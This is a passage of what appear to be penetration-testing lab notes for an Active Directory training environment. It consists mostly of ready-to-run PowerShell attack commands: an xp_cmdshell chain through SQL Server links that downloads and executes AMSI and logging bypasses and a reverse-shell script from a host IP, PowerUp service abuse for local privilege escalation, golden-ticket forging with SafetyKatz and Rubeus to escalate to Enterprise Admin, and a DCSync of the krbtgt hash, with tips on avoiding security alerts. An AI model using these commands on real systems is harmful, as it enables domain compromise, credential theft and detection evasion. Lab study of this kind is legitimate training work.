 ```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query 'exec master..xp_cmdshell ''powershell -c "iex (iwr -UseBasicParsing http://172.16.100.37/sbloggingbypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/amsibypass.txt);iex (iwr -UseBasicParsing http://172.16.100.37/Invoke-PowerShellTcpEx.ps1)"''' -QueryTarget eu-sql23
```
{% endcode %}
{% endtab %}

{% tab title="Local PE" %}
{% code overflow="wrap" %}
```powershell
# Enumerate privilege escalation vectors (PowerUp)
Invoke-AllChecks

# Abuse the target function and add the target user to the LA group
Invoke-ServiceAbuse -Name "AbyssWebServer" -Username "dcorp\student337"

# Examples
Get-Help Invoke-ServiceAbuse -examples
```
{% endcode %}
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="krbtgt NT (XDomain)" %}
Forge a GT (pre-load SIDs on the initial TGT) (DA  → EA):

{% code overflow="wrap" %}
```powershell
# GT as Administrator (generates 4672 alerts)

# Execute the GT attack including the target SIDs using SafetyKatz
Loader.exe -path SafetyKatz.exe -args "kerberos::golden /user:administrator /domain:dollarcorp.moneycorp.local /sid:<currentDomainSID> /sids:<rootDomainSID>-519 /krbtgt:<krbtgt-rc4> /ptt" "exit"

# Execute the GT attack including the target SIDs using Rubeus
Loader.exe -path Rubeus.exe -args evasive-golden /user:administrator /id:500 /domain:dollarcorp.moneycorp.local /sid:<currentDomainSID> /sids:<rootDomainSID>-519 /aes256:<krbtgt-key> /netbios:dcorp /ptt

# Access the parent domain's DC
winrs -r:mcorp-dc cmd

# Peform a DCSync to extract the forest root's krbtgt credentials
Loader.exe -path SafetyKatz.exe -args "lsadump::dcsync /user:mcorp\krbtgt /domain:moneycorp.local" "exit"
```
{% endcode %}

The machine account can be combined with SIDs for DCs (`516`) and Enterprise DCs (`S-1-5-9`) to simulate legit replication behavior between domains (no 4672 alerts as above):
